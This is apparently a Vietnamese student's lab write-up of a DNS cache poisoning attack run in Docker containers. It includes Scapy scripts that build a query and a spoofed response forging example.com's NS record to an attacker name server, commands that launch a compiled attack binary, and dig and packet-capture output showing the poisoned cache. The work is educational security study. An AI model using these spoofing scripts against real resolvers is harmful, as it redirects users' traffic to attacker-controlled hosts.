

# LAB-03

## I. Setup
- Mở file `docker-compose.yml`. Sửa các thông số x, y trong địa chỉ IP cho các container.
Ở bài này thì mình sẽ tiếp tục chọn `x=61` và `y=7`.
- Tương tự với các file `image_attacker_ns/zone_attacker32.com`, `image_attacker_ns/zone_example.com`, `image_local_dns_server/named.com`, `image_user/resolv.conf`.

- Xây dựng các container
```bash
[12/17/24]seed@VM:~/.../Lab03$ docker-compose build
[12/17/24]seed@VM:~/.../Lab03$ docker-compose up -d
Creating local-dns-server ... done
Creating attacker         ... done
Creating attacker-ns      ... done
Creating user             ... done
```

- Truy cập vào shell của các container.


- ping qua ping lại để chứng minh là mạng đã thông.

- Kiểm tra hoạt động của dịch vụ DNS trên máy User.
```bash
root@df77279763fd:/# dig ns.attacker32.com

; <<>> DiG 9.16.1-Ubuntu <<>> ns.attacker32.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 57590
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: 12c3cd94027fdbfa0100000067615656acbdf7c45188f028 (good)
;; QUESTION SECTION:
;ns.attacker32.com.             IN      A

;; ANSWER SECTION:
ns.attacker32.com.      259200  IN      A       10.61.7.153

;; Query time: 8 msec
;; SERVER: 10.61.7.53#53(10.61.7.53)
;; WHEN: Tue Dec 17 10:45:42 UTC 2024
;; MSG SIZE  rcvd: 90
```
Ta thấy địa chỉ ip của máy chủ dns giả mạo `ns.attacker32.com` là `10.61.7.153`.

```bash
root@df77279763fd:/# dig www.example.com

; <<>> DiG 9.16.1-Ubuntu <<>> www.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 48785
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: 00da9445d7a9c90c0100000067615674ac2062c67192cc83 (good)
;; QUESTION SECTION:
;www.example.com.               IN      A

;; ANSWER SECTION:
www.example.com.        3600    IN      A       93.184.215.14

;; Query time: 1240 msec
;; SERVER: 10.61.7.53#53(10.61.7.53)
;; WHEN: Tue Dec 17 10:46:12 UTC 2024
;; MSG SIZE  rcvd: 88
```
Địa chỉ ip của `www.example.com` đã được thiết lập thành công là `93.184.215.14`

```bash
root@df77279763fd:/# dig @ns.attacker32.com www.example.com

; <<>> DiG 9.16.1-Ubuntu <<>> @ns.attacker32.com www.example.com
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 48111
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: 47a2d70ed80134860100000067615688bff46bcf26351ae7 (good)
;; QUESTION SECTION:
;www.example.com.               IN      A

;; ANSWER SECTION:
www.example.com.        259200  IN      A       1.2.3.5

;; Query time: 0 msec
;; SERVER: 10.61.7.153#53(10.61.7.153)
;; WHEN: Tue Dec 17 10:46:32 UTC 2024
;; MSG SIZE  rcvd: 88
```

Đối với DNS server giả mạo `ns.attacker32.com` thì địa chỉ IP của `www.example.com` là `1.2.3.5`

**Địa chỉ IP của các container trước khi thực hiện tấn công**
- `local-dns-server`: `10.61.7.53`
- `user`: `10.61.7.5`
- `attacker`: `10.61.7.1`
- `attacker-ns`: `10.61.7.153`


## II. Tạo thông điệp DNS Query truy vấn
### 1. Template
- Sử dụng script `gen_query.py` để tạo thông điệp truy vấn tên miền gửi tới `local-dns-server`.
```py
#!/usr/bin/python
from scapy.all import *

IP_packet = IP(dst="<Destination_IP_Address>", src="<Source_IP_Address>")
UDP_packet = UDP(dport=<Destination_Port>, sport=<Source_Port>, chksum=0)
Qdsec = DNSQR(qname='<Domain_name>')
DNSpkt = DNS(id=0xAAAA, qr=0,qdcount=1,ancount=0, nscount=0, arcount=0, qd=Qdsec)

request = IP_packet/UDP_packet/DNSpkt

with open('ip_req.bin','wb') as f:
	f.write(bytes(request))
```

Trong đó:
- `<Destination_IP_Address>` là địa chỉ IP của `local-dns-server`
- `<Source_IP_Address>` là một địa chỉ bất kì. Vì đây là thông điệp yêu cầu truy vấn DNS mà.
- `<Destination_Port>` là 53, số hiệu cổng dịch vụ DNS.
- `<Source_Port>` là một giá trị bất kì.
- `<Domain_name>` là tên miền cần truy vấn. Ở đây ta sẽ truy vấn đến một tên miền không tồn tại trong `example.com`

### 2. Thực hiện tạo query
- Điền thông tin vào template, ta có:
```py
#!/usr/bin/python
from scapy.all import *

IP_packet = IP(dst="10.61.7.53", src="10.61.7.100")
UDP_packet = UDP(dport=53, sport=9999, chksum=0)
Qdsec = DNSQR(qname='hieuv.example.com')
DNSpkt = DNS(id=0xAAAA, qr=0,qdcount=1,ancount=0, nscount=0, arcount=0, qd=Qdsec)

request = IP_packet/UDP_packet/DNSpkt

with open('ip_req.bin','wb') as f:
	f.write(bytes(request))
```

- Lưu thông tin vào `gen_query.py` và copy vào `attacker`
```bash
[12/17/24]seed@VM:~/.../attack$ docker cp gen_query.py ce:/tmp
[12/17/24]seed@VM:~/.../attack$
```

- Kiểm tra trong attacker container, ta có:
```bash
root@VM:/tmp# ls
gen_query.py
```

- Tạo thông điệp truy vấn
```bash
root@VM:/tmp# python3 gen_query.py
root@VM:/tmp# ls
gen_query.py  ip_req.bin
```

## III. Tạo thông điệp DNS response giả mạo.
Trong kịch bản tấn công DNS Cache Poisioning, khi máy tấn công gửi yêu cầu phân giải một tên miền không tồn tại. Điều này làm cho `local-dns-server` gửi đi yêu cầu phân giải tên miền không tồn tại đó tới máy chủ tên miền trên Internet. 

Trong khi đó, máy tấn công tiếp tục gửi thông điệp giả mạo tới máy mục tiêu. Thông điệp giả mạo này là thông điệp trả lời từ máy chủ tên miền trên Internet mà `local-dns-server` đang gửi truy vấn đến trước đó.

### 1. Template
Thông điệp dns response này giả mạo thông tin về bản ghi NS, cho biết máy chủ tên miền của `example.com` là `ns.attacker32.com`.

```py
#!/usr/bin/python
from scapy.all import *

name = '<Domain_name>'
domain = 'example.com'
ns = '<Fake_name_server>'

Qdsec = DNSQR(qname=name)
Anssec = DNSRR(rrname=name, type='A', rdata='1.2.3.4', ttl=259200)
NSsec = DNSRR(rrname=domain, type='NS', rdata=ns, ttl=259200)
dns = DNS(id=0xAAAA, aa=1, rd=1, qr=1,qdcount=1, ancount=1, nscount=1, arcount=0, qd=Qdsec, an=Anssec, ns=NSsec)

ip = IP(dst="<Destination_IP_Address>", src="<Source_IP_Address>")
udp = UDP(dport=<Destination_Port>, sport=<Source_Port>, chksum=0)

reply = ip/udp/dns

with open('ip_resp.bin','wb') as f:
	f.write(bytes(reply))
```

Trong đó:
- `<Domain_name>` là tên miền mà ta đã yêu cầu phân giải trước đó.
- `<Fake_name_server>` là tên miền của máy chủ dns cung cấp thông tin giả mạo, trong bài này là `ns.attacker32.com`.
- `<Destination_IP_Address>` là địa chỉ của `local-dns-server`
- `<Source_IP_Address>` là một địa chỉ mà ta cần phải tìm. Mình sẽ trình bày cách tìm địa chỉ này ở bên dưới.
- `<Source_Port>` là 53
- `Destination_Port>` là `44444`, là cổng dịch vụ mặc định để gửi yêu cầu phân giải tên miền của `local-dns-server` đến máy chủ dns trên internet.

### 2. Tìm địa chỉ `<Source_IP_Address>`

Để tìm địa chỉ này, kẻ tấn công có thể tự triển khai một máy chủ dns. 

Sau đó gửi yêu cầu truy vấn đến máy chủ tự triển khai đó, để phân giải một tên miền trong `example.com`, và bắt lưu lượng trên máy chủ tự triển khai này. 

Như vậy là có thể xác định được máy chủ tên miền thực sự trên Internet của `example.com` là gì.

Trong bài này thì mình sẽ bắt lưu lượng ngay trên mạng ảo.

- Mở WireShark và bắt traffic trên card mạng `br-97055204ab75`. 

*Notes: Tại sao chọn được card mạng này thì vì card mạng này nằm cùng dải mạng với các container*

```
[12/17/24]seed@VM:~/.../attack$ ip a
...
9: br-97055204ab75: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:eb:ce:34:92 brd ff:ff:ff:ff:ff:ff
    inet 10.61.7.1/24 brd 10.61.7.255 scope global br-97055204ab75
       valid_lft forever preferred_lft forever
    inet6 fe80::42:ebff:fece:3492/64 scope link 
       valid_lft forever preferred_lft forever
...
```

- Thực hiện gửi yêu cầu phân giải tên miền đến 1 tên miền không tồn tại trong miền `example.com` tại máy user
```bash
root@df77279763fd:/# dig kakslaksld.example.com

; <<>> DiG 9.16.1-Ubuntu <<>> kakslaksld.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id: 31385
;; flags: qr rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: 1b90d4155f1bb2e3010000006761830cc370a7a2931995ef (good)
;; QUESTION SECTION:
;kakslaksld.example.com.                IN      A

;; AUTHORITY SECTION:
example.com.            3600    IN      SOA     ns.icann.org. noc.dns.icann.org. 2024081464 7200 3600 1209600 3600

;; Query time: 259 msec
;; SERVER: 10.61.7.53#53(10.61.7.53)
;; WHEN: Tue Dec 17 13:56:28 UTC 2024
;; MSG SIZE  rcvd: 144

```

- Filter với bộ lọc dns, ở WireShark ta thấy


Để cho dễ tìm kiếm thì mình có thể áp dụng bộ lọc `dns.qry.name==kakslaksld.example.com`

Từ hình ảnh, ta thấy địa chỉ của máy chủ dns trên internet là `199.43.133.53`

### 3. Tạo thông điệp response giả mạo

```py
#!/usr/bin/python
from scapy.all import *

name = 'hieuv.example.com'
domain = 'example.com'
ns = 'ns.attacker32.com'

Qdsec = DNSQR(qname=name)
Anssec = DNSRR(rrname=name, type='A', rdata='1.2.3.4', ttl=259200)
NSsec = DNSRR(rrname=domain, type='NS', rdata=ns, ttl=259200)
dns = DNS(id=0xAAAA, aa=1, rd=1, qr=1,qdcount=1, ancount=1, nscount=1, arcount=0, qd=Qdsec, an=Anssec, ns=NSsec)

ip = IP(dst="10.61.7.53", src="199.43.133.53")
udp = UDP(dport=44444, sport=53, chksum=0)

reply = ip/udp/dns

with open('ip_resp.bin','wb') as f:
	f.write(bytes(reply))
```

- Lưu script vào attacker container
```bash
[12/17/24]seed@VM:~/.../attack$ docker cp gen_response.py ce:/tmp
```

- Kiểm tra ở phía attacker
```bash
root@VM:/tmp# ls
gen_query.py  gen_response.py  ip_req.bin
```

- Thực thi script
```bash
root@VM:/tmp# python3 gen_response.py
root@VM:/tmp# ls
gen_query.py  gen_response.py  ip_req.bin  ip_resp.bin
```

### 4. Biên dịch `attacker.c` thành thực thi tấn công

- Biên dịch chương trình và đưa vào attacker
```bash
[12/17/24]seed@VM:~/.../attack$ gcc attack.c -o attack
[12/17/24]seed@VM:~/.../attack$ docker cp attack ce/:tmp
```

- Kiểm tra lại
```bash
root@VM:/tmp# ls
attack  gen_query.py  gen_response.py  ip_req.bin  ip_resp.bin
```

### 5. Thực hiện tấn công.

- Trong máy ảo `local-dns-server`, tại folder `/tmp`, thực hiện lệnh
```bash
root@3476cc8aec23:/tmp# tcpdump -i eth0 udp port 53 -w local-dns.pcap
```

- Tại máy `attacker`, thực hiện bắt lưu lượng với
```bash
root@VM:/tmp# tcpdump -i br-97055204ab75 udp port 53 -w attacker.pcap
```

- Tại tab khác của `local-dns-server`, thực hiện lệnh
```bash
root@3476cc8aec23:/# rndc dumpdb -cache && grep ns.attacker32.com /var/cache/bind/dump.db
```

để trích xuất nội dung bộ đệm dịch vụ, nhằm kiểm tra xem đã tấn công thành công hay chưa

- Bắt đầu thực hiện tấn công, tại attacker, thực hiện lệnh
```bash
root@VM:/tmp# ./attack
```

- Setup như hình sau: 


- Kiểm tra lại tại máy user, ta có
```bash
root@4e83ed1c517b:/# dig example.com

; <<>> DiG 9.16.1-Ubuntu <<>> example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 34907
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: c18520128fd6a6820100000067619fb7320bf5f343f4c4ec (good)
;; QUESTION SECTION:
;example.com.                   IN      A

;; ANSWER SECTION:
example.com.            259200  IN      A       1.2.3.4

;; Query time: 0 msec
;; SERVER: 10.61.7.53#53(10.61.7.53)
;; WHEN: Tue Dec 17 15:58:47 UTC 2024
;; MSG SIZE  rcvd: 84
```

Để lấy các file `pcap` ra ngoài, ta cần dùng các lệnh
```bash
[12/17/24]seed@VM:~/.../attack$ docker cp fc556:/tmp/local-dns.pcap .
[12/17/24]seed@VM:~/.../attack$ docker cp e49961edb734:/tmp/attacker.pcap .
```


- Để lấy các file `pcap` ra ngoài máy thật, ra có thể dùng scp
```bash
scp seed@192.168.1.102:/home/seed/Lab_setup/Lab03/attack/*.pcap .
```

- Sử dụng bộ lọc `ip.src==10.61.7.53 && ip.dst==199.43.133.53` để tìm các thông điệp mà máy nạn nhân đã gửi đi.


Để tìm thông điệp dns response giả mạo đã được máy chủ `local-dns-server` chấp nhận, ta dựa trên nhận xét: Trước khi máy chủ `local-dns-server` bị đầu độc, thì máy chủ `local-dns-server` vẫn coi máy chủ `199.43.133.53` là máy chủ sẽ trả lời cho các truy vấn về tên miền `example.com`.

Còn sau khi bị đầu độc, tên miền `example.com` sẽ được cung cấp bởi máy chủ `ns.attacker32.com`. 

Vì vậy, trong số các DNS query được gửi đi, thông điệp dns cuối cùng được gửi đi từ máy nạn nhân tới máy chủ tin cậy cũng chính là thông điệp cuối cùng xảy ra trước khi máy chủ `local-dns-server` bị đầu độc.

Chính là gói tin này.(Còn mấy gói tin trên là gì thì mình chưa tìm hiểu :v)




Vậy để tìm được thông điệp giả mạo đã được máy chủ `local-dns-server` chấp nhận, ta sử dụng filter `dns.id == 0xa7a7 && dns.qry.name=="hxyva.example.com"`

Ta có kết quả:


